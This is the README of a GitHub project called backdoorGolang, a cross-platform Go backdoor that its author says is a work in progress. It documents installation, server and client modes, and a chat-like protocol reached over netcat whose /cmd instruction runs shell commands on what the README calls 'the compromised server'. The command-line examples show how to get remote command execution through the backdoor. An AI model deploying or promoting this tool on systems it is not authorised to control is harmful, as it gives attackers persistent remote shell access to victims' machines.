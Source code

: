 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Plateform)

_/!\ Work in progress, not a stable release /!\_

##Main goal

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :
```bash
(sudo) pacman -S community/go
```

From Debian :
```bash
(sudo) apt-get install golang-go
```

## Installation

```bash
cd $GOPATH
go get github.com/pilebones/backdoorGolang
./bin/backdoorGolang --help

```

## Usage

```bash
./bin/backdoorGolang --help
Usage of ./bin/backdoorGolang:
  -d, --debug         Enable mode debug
  -h, --host string   Set hostname to use (default "localhost")
  -l, --listen        Enable listen mode (server socket mode)
  -p, --port int      Set port number to use (default 9876)
  -v, --verbose       Enable mode verbose
  -V, --version       Display version number
```

## Server-mode

```bash
./bin/backdoorGolang -h localhost -p 1234 -l
```

Notice : Server is multi-user capable (one server for X client)

## Client-mode

/!\ Not implemented yet, use netcat meanwhile !

```bash
netcat localhost 1234
```

### Instructions

Each message submit by client is sent to all backdoor's clients like a chat. 
However, an alone chat's feature is useless, there are a set of instructions allowed by all clients which have different behavior for taking advantage of the compromised server.

#### Quit Instruction

This instruction permit to logout the current user

```bash
/quit
/exit
```
Example :
```bash
echo "/quit"|netcat localhost 1234
```

#### Command Instruction

This instruction permit to execute shell command from server. (OS supported : Linux, Windows)

```bash
/cmd <shell-command>
```
Example :
```bash
echo "/cmd ls -l"|netcat localhost 1234
```
